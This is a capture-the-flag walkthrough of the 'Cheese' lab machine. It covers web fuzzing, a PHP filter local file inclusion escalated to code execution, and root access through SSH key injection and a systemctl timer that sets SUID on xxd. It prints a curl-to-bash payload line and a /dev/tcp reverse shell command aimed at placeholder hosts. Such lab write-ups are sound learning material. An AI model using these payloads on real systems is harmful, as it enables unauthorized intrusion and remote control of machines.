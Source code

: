 ```markdown
# Cheese Machine Walkthrough by @unknownperson

## Enumeration

### 1. Starting with Nmap

—> **Port Sniffer** shows that all ports are open, making port scanning unnecessary for this challenge.

### 2. Checking Port 80 (Web Server)

—> The website hosted on port 80 is a **Cheese Shop** with a login interface. However, no credentials were available, and it was not vulnerable to injection attacks.

## Directory Fuzzing

### 3. Directory Fuzzing with Gobuster

```bash
┌──(unknownperson㉿unknownperson)-[~/CTF/THM]
└─$ gobuster dir -u http://10.10.171.47/ -w /usr/share/wordlist/directory-list-2.3-medium.txt -t 25 -x txt,py,sh,php 
```

—> The fuzzing revealed several important directories like `login`, `images`, `messages`, and `users`.

→ The **Messages** section was crucial as it led us to a vulnerable **PHP filter Local File Inclusion (LFI)**, where we could view system files.

## Initial Access

### 1. Exploiting LFI to Gain RCE

We can leverage a tool from GitHub to generate a **base64 link** that exploits the **PHP filter** and executes a PHP command on the target server:

→ Tool: [PHP Filter Chain Generator](https://github.com/synacktiv/php_filter_chain_generator)

#### Syntax:
```bash
$ python3 php_filter_chain_generator.py --help
```
- Example:
```bash
python3 php_filter_chain_generator.py --chain "<? `curl -s -L IP/revshell | bash` ?>"
```

→ **Step 1:** Create a reverse shell locally:
```bash
echo "bash -i >& /dev/tcp/IP/PORT 0>&1" > revshell
```

→ **Step 2:** Generate a base64-encoded payload using the tool and insert it into the URL:
```url
http://Victamip/secret-script.php?file=
```

→ **Step 3:** Start a Python HTTP server to host the reverse shell file.

→ **Step 4:** We successfully got the **initial access** with this method.

## Privilege Escalation

### 1. SSH Key Injection for a Stable Shell

—> The `/home/comet/.ssh/authorized_keys` file was writable, allowing us to add our **id_rsa.pub** key, securing a stable SSH connection.

### 2. Gaining Root Privileges

—> Running the **sudo** command revealed access to **systemctl**:
```bash
sudo -l
```

→ We can exploit the **exploit.timer** to trigger **exploit.service** and execute **xxd** with **SUID** bit permissions.

### 3. Exploiting the `xxd` Command

→ By manipulating **exploit.timer** to run every 5 seconds, we gained SUID permissions on **xxd**.

→ Finally, running the following command allowed us to read the **root flag**:
```bash
./xxd "/root/root.txt" | xxd -r
```

## Conclusion

### 🎉 **Rooted the Cheese Machine! Another successful pwn!**
```
